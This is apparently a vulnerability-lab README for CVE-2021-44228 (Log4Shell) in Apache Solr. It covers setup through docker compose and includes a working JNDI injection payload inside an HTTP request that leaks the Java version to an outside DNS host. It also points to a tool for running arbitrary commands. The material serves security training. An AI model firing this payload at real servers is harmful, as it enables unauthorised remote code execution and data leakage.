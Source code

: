 # Apache Log4j2 lookup feature JNDI injection (CVE-2021-44228)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Log4j 2 is an upgrade to Log4j that provides significant improvements over its predecessor, Log4j 1.x, and provides many of the improvements available in Logback while fixing some inherent problems in Logback's architecture.

On Dec 2021, a 0-day exploit in the Apache Log4j2 was discovered. Log4j’s JNDI support has not restricted what names could be resolved. Some protocols like `rmi:` and `ldap:` are unsafe or can allow remote code execution.

References:

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649

## Vulnerability Environment

Apache Log4j2 is not a certain web service, it is just a third-party library, so we can use a application that depend on Log4j2 to demonstrate how to exploit this vulnerability.

Execute following command to start a Apache Solr 8.11.0, which use Log4j 2.14.1:

```
docker compose up -d
```

After server start, browse `http://your-ip:8983` to see the admin portal of Apache Solr.

## Exploit

Simply, put the payload `${jndi:dns://${sys:java.version}.example.com}` as the admin action that can trigger the JNDI query.

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```

Query will be shown at the DNS log:

![](1.png)

Exploit JNDI injection with [this tool](https://github.com/su18/JNDI) to execute arbitrary commands, `touch /tmp/success` is succesful executed:

![](2.png)
